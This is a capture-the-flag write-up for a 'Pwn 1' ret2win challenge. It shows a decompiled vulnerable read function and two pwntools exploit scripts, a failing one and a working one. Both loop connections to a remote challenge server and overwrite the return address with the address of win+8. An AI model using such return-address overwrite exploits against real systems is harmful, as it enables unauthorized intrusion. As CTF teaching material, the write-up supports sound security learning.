

# Pwn 1
## techique: ret2win

First, I receive 3 files relative with challenge: 
* chall (elf file)
* libc.so.6
* ld-2.35.so

After, i patched it to chall_patched file. Let's checksec --> overview --> debug this file.<br>


### vuln() function
```c
ssize_t vuln()
{
  ssize_t result; // rax
  char buf[40]; // [rsp+0h] [rbp-20h] BYREF

  printf("Input: ");
  result = read(0, buf, 0x20uLL);
  buf[32] = 0;
  return result;
}
```
Nothing special, I can not exploit if I don't see this part:<br>


After ask author time, I got the answer that it is random :v. If you lucky, you will have stack address have 1 byte **`\x00`** in last address in your buffer(inputed) (like the picture above 😂).<br>

I have a payload to solve this chall:
```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./chall_patched', checksec=False)
while(1):
    try:
        p=remote("34.124.180.6" ,5001)
        p.recvuntil(b'Input: ')
        payload = p64(elf.sym["win"]) * 4
        p.send(payload)
        context.log_level = "DEBUG"
        p.interactive()
    except:
        p.close()
```
Did you try this payload?<br> 
You have been **Segment fault...** 😁<br>
But I tried this payload too, so SAD...
Here is true payload for this chall:
```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./chall_patched', checksec=False)
ret = 0x000000000040101a
while(1):
    try:
        p=remote("34.124.180.6" ,5001)
        p.recvuntil(b'Input: ')
        payload = p64(elf.sym["win"] + 8) * 4
        p.send(payload)
        context.log_level = "DEBUG"
        p.interactive()
    except:
        p.close()
```
Detail a little, This payload will return to **`<win + 8>`** address to avoid **`Segment fault`** for **`ELF-64 bits`**. Length this payload equal **`32`** follow this challenge and I multiple with **`4`** to increase the possibility of success <br>
Oke done.

